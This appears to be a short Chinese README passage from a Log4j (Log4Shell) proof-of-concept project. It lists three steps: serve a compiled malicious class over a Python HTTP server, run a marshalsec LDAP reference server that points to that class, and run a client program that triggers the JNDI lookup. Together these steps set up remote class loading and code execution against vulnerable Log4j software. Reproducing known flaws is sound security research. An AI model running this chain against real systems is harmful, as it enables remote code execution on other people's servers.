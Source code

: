 
1) 启动Http Server
cd到`Log4JRemoteClz.class`编译后所在target路径，执行
`python -m SimpleHTTPServer 8888`

2) 启动JNDI Ref Server
cd到`resources`路径，执行
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#Log4JRemoteClz`

3) 执行ClientRun.java代码
